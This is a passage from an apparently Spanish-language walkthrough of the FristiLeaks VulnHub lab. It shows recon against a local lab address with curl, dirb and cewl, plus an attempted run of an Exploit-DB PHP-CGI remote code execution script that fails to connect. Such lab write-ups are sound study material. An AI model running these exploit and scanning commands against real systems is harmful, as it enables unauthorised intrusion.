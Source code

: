 3 - Aplicando un curl, nos da un código 301, y la página redirecciona a imágenes:
Este es el ejemplo con `\beer`, pero es lo mismo con los demás directorios.
```python
$curl -i http://192.168.0.70/beer
HTTP/1.1 301 Moved Permanently
[...]

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
	<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://192.168.0.70/beer/">here</a>.</p>
</body></html>
```

Se procedió con esta información usar un exploit:
```python
$searchsploit -m php/remote/29316.py
  Exploit: Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner
      URL: https://www.exploit-db.com/exploits/29316
     Path: /usr/share/exploitdb/exploits/php/remote/29316.py
    Codes: CVE-2012-2336, CVE-2012-2311, CVE-2012-1823, OSVDB-81633
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kmxbay/Documentos/VulnHub/FristiLeaks/29316.py
```
Más no se obtuvo resultado satisfactorio:
```python
$python2 29316.py -h http://192.168.0.70/ -c 'ls' -v
--==[ ap-unlock-v1337.py by noptrix@nullsecurity.net ]==--
[+] s3nd1ng c0mm4ndz t0 h0st http://192.168.0.70/ 
-> c0uld n0t c0nn3ct t0 http://192.168.0.70/
[+] h0p3 1t h3lp3d
```

Se realizó un escaneo de directorios
```python
$dirb http://192.168.0.70
[...]                                                        
---- Scanning URL: http://192.168.0.70/ ----
+ http://192.168.0.70/cgi-bin/ (CODE:403|SIZE:210)                                
==> DIRECTORY: http://192.168.0.70/images/                                        
+ http://192.168.0.70/index.html (CODE:200|SIZE:703)                              
+ http://192.168.0.70/robots.txt (CODE:200|SIZE:62)  
```

Hicimos un diccionario personalizado con `$cewl http://192.168.0.70 -w dict_index.txt`
Pero no funcionó mucho:
```python
$dirb http://192.168.0.70 dict_index.txt 
[...]

START_TIME: Wed May 14 11:30:42 2025
URL_BASE: http://192.168.0.70/
WORDLIST_FILES: dict_index.txt

-----------------

GENERATED WORDS: 49                                                            

---- Scanning URL: http://192.168.0.70/ ----
```
